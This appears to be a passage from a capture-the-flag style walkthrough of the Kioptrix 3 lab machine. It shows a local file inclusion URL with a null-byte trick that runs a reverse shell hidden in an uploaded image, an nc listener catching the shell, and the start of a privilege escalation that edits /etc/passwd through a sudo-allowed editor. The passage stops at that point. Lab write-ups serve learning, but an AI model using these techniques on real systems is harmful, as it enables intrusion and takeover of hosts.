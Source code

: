 ```
Parse error: syntax error, unexpected '.', expecting T_STRING or T_VARIABLE or '$' in /home/www/kioptrix3.com/core/lib/router.php(26) : eval()'d code on line 1
```

Armed with the knowledge of where our PHP reverse shell is on disk as well as how to exploit the local file inclusion vulnerability, *and* the knowledge that we can trick Apache in to thinking it's rendering a different file format to what it is, we can browse to the following URL:

`hXXp://kioptrix3.com/index.php?system=../../../../..//home/www/kioptrix3.com/gallery/photos/f6bp2r55bk.jpg%00.php`

`# nc -lvnp 443`

```
listening on [any] 443 ...
connect to [192.168.1.30] from (UNKNOWN) [192.168.1.31] 44703
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
 17:08:10 up  6:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

So that's three ways to get a low privileged shell!

# [](#header-1)Post-Exploitation

The method with the least faffing about is definitely logging in via SSH as loneferret so we'll just continue with that going forward.

A great first step when trying to find a path to escalated privileges when you have the users password is to check if there are any unsafe binaries that the user can run with `root` privileges.

`loneferret@Kioptrix3:~$ sudo -l`

```
User loneferret may run the following commands on this host:
    (root) NOPASSWD: !/usr/bin/su
    (root) NOPASSWD: /usr/local/bin/ht
```

So we can see that `loneferret` is explicitly *disallowed* from running `su` but is allowed to execute `ht`, a text editor.

# [](#header-1)Privilege Escalation

Using `ht`, we'll modify the `/etc/passwd` file, upgrading `loneferret` to `root` by modifying the UID and GUID values.

```
loneferret@Kioptrix3:~$ sudo /usr/local/bin/ht
Error opening terminal: xterm-256color.
loneferret@Kioptrix3:~$ export TERM=xterm
loneferret@Kioptrix3:~$ sudo /usr/local/bin/ht
```
